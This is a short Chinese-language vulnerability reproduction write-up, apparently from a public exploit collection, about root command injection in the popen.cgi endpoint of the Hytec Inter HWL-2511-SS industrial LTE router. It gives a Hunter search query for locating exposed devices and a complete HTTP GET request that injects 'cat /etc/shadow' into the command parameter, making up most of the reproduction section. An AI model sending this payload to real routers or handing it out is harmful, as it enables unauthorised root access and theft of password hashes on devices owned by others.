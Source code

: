 # Hytec Inter HWL-2511-SS路由器popen.cgi命令注入漏洞

# 一、漏洞简介
Hytec Inter HWL-2511-SS是日本Hytec Inter公司的一种工业 LTE 路由器和 Wi-Fi 接入点。 Hytec Inter HWL-2511-SS popen.cgi存在安全漏洞，允许攻击者以root权限执行任意命令。

# 二、影响版本
+ Hytec Inter HWL-2511-SS

# 三、资产测绘
+ hunter`app.name=="PROSCEND(及其他) Celluar Router "`

![1692195674584-e5d0c9c1-db2b-4086-89d9-32e86c36007a.png](./img/4A0X6p-kZawMAx-b/1692195674584-e5d0c9c1-db2b-4086-89d9-32e86c36007a-554553.png)

+ 登录页面

![1692195705957-a4726dd2-e296-4890-9a9c-4f2175496086.png](./img/4A0X6p-kZawMAx-b/1692195705957-a4726dd2-e296-4890-9a9c-4f2175496086-933108.png)

# 四、漏洞复现
```plain
GET /cgi-bin/popen.cgi?command=ping%20-c%201.1.1.1;cat%20/etc/shadow&v=0.130303344313792 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
If-Modified-Since: Sun, 13 Oct 2019 19:17:17 GMT
If-None-Match: "18111784"
Te: trailers
Connection: close
```

![1692195751951-2903e0d0-9813-49e6-91ac-4a1f0b7d58e6.png](./img/4A0X6p-kZawMAx-b/1692195751951-2903e0d0-9813-49e6-91ac-4a1f0b7d58e6-393174.png)



> 更新: 2024-02-29 23:57:15  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/hy5l035eahzzbbys>